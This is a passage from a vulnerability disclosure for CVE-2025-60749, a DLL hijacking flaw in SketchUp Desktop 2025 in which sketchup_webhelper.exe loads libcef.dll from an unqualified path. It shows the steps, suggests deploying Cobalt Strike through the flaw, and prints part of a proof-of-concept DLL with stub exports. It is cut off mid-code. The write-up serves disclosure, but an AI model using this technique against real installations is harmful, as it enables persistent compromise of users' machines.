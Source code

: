 ```yaml
---
title: CVE-2025-60749
date: 2025-10-23 10:43:44
tags: cve申请

---
```


# SketchUp Desktop 2025 DLL Hijacking Vulnerability





**Vulnerable version download link: https://help.sketchup.com/zh-CN/downloading-sketchup**

![image-20251023102415453](https://cdn.jsdelivr.net/gh/yawataa/image@main/img/202510231024560.png)





**After downloading, locate the `sketchup_webhelper.exe` program in the software directory.**

![image-20251023102514393](https://cdn.jsdelivr.net/gh/yawataa/image@main/img/202510231025460.png)

**The program does not specify a full path when loading the `libcef.dll` DLL, causing Windows to search for the DLL according to a specific search order.**

**An attacker can place a malicious DLL file (e.g., `libcef.dll`) in a higher-priority location within the program's search path and implement an export function with the same name, thereby hijacking the program's execution flow.**



**For example:**

![image-20251023102645646](https://cdn.jsdelivr.net/gh/yawataa/image@main/img/202510231026686.png)



**When the program is executed, it will load this malicious DLL, and our demonstration pop-up window will be displayed.**

![image-20251023102731704](https://cdn.jsdelivr.net/gh/yawataa/image@main/img/202510231027803.png)





**Additionally, we can leverage this to deploy remote control tools such as Cobalt Strike.**



dllmain.cpp

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
extern "C" __declspec(dllexport) int cef_string_multimap_free() {
    return 0;
}
extern "C" __declspec(dllexport) int cef_string_multimap_alloc() {
        return 0;
}
extern "C" __declspec(dllexport) int cef_string_multimap_append() {
        return 0;
}
extern "C" __declspec(dllexport) int cef_string_multimap_value() {
        return 0;
}
extern "C" __declspec(dllexport) int cef_string_multimap_key() {
        return 0;
```